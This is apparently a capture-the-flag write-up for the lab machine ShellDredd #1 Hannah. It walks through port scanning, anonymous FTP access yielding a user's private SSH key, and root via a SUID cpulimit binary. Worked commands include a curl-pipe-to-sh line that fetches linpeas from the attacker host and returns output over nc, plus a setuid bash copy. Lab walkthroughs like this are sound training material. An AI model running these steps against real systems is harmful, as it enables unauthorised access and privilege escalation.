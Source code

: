 ```yaml
---
title: OnSystem: ShellDredd #1 Hannah
author:
  name: am-a-circle
date: 2021-04-15 12:00:00 
categories: [OSCP PG Play]
tags: [SUID,easy]
math: false
mermaid: false
---
```


## Overview

"ONSYSTEM: SHELLDREDD #1 HANNAH" is an easy boxes which is great for beginners to learn more about enumerating the poorly configured FTP port to search for sensitive information and escalate to root by exploiting SUID.

|Box Difficulty| Link|
|--|--|
| Easy | [Vulnhub Link](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) |

For this box I will be attempting it on Offensive security **PG Play** .

## Recon

I always like to start with Masscan to find all open port followed by nmap enumeration.
```bash
masscan -p1-65535 192.168.109.130 --rate=1000 
Discovered open port 21/tcp on 192.168.109.130   
Discovered open port 61000/tcp on 192.168.109.130                              
```


```bash
# Nmap 7.91 scan initiated Sun Apr 11 03:44:50 2021 as: nmap -sV -sC -p 21,61000 -oN /opt/OSCP_PlayG/OnSystemShellDredd/nmap_full.txt 192.168.109.130
Nmap scan report for 192.168.109.130
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 03:45:01 2021 -- 1 IP address (1 host up) scanned in 11.80 seconds

```

Through this we can see that there is a FTP server on port 21 and a SSH at port 61000.

## FTP - TCP 21

We can see that anonymous login is allowed, let's test it:
```bash
# ftp 192.168.109.130
Connected to 192.168.109.130.
220 (vsFTPd 3.0.3)
Name (192.168.109.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Next , let's download all the files from the FTP server so we can look through the files :

```bash
 wget -m --no-passive ftp://anonymous:anonymous@192.168.109.130                                                                                                         
--2021-04-13 03:05:02--  ftp://anonymous:*password*@192.168.109.130/                                                                                                       
           => ‘192.168.109.130/.listing’                                                                                                                                   
Connecting to 192.168.109.130:21... connected.                                                                                                                             
Logging in as anonymous ... Logged in!                                                                                                                                    
==> SYST ... done.    ==> PWD ... done.                                                                                                                                   
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.       
```

```bash
┌──(root💀kali)-[/opt/OSCP_PlayG/OnSystemShellDredd/192.168.109.130]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Apr 11 03:52 .
drwxr-xr-x 4 root root 4096 Apr 13 03:05 ..
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .hannah
-rw-r--r-- 1 root root  184 Apr 11 03:52 .listing

./.hannah:
total 16
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .
drwxr-xr-x 3 root root 4096 Apr 11 03:52 ..
-r-------- 1 root root 1823 Aug  6  2020 id_rsa
-rw-r--r-- 1 root root  183 Apr 11 03:52 .listing

```

Great we can see that under the user folder .hannah , there is a id_rsa key. 

```bash
└─# cat id_rsa                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
....
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Looking into the content of the file, we can see that this is a OPENSSH PRIVATE KEY, and can use this to ssh into the system as hannah most probably!


## Shell as Hannah

We can see below that if we try to ssh as hannah using the private key,it is ignored as the permission are too open.
```bash
─# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '.hannah/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key ".hannah/id_rsa": bad permissions
hannah@192.168.91.130's password: 
```

Instead we have to ensure that the key is read-writeable by you only before we can ssh as hannah!
```bash
# chmod 600 .hannah/id_rsa 
# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

With that we are now in the shell as hannah!

## Shell as Root

One of the first things i like to do is run `linpeas.sh`
```bash
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # On Host 
curl HOST-IP:8000/linpeas.sh | sh | nc HOST-IP 9002 #On Victim
```

After running `linpeash.sh` we can see that there is a cpulimit has a SUID permission which we can exploit. This mean we can run cpulimit command as root.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                                                                             
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                   
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                         
strace Not Found                                                                                                                                                          
-rwsr-sr-x 1 root root       120K Mar 23  2012 /usr/bin/mawk                                                                                                              
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                                          
-rwsr-sr-x 1 root root        23K Jun 23  2017 /usr/bin/cpulimit             
```

Thus to gain root privileges , we use cpulimit to copy bash into the temp directory, give it a "chmod +s" so that it maintains root privileges from suid.
```bash
hannah@ShellDredd:~$ cpulimit -l 50 -f cp /bin/bash /tmp/bash
Process 1165 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ cpulimit -l 50 -f chmod +s /tmp/bash
Process 1167 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ /tmp/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)

```

And we are root!

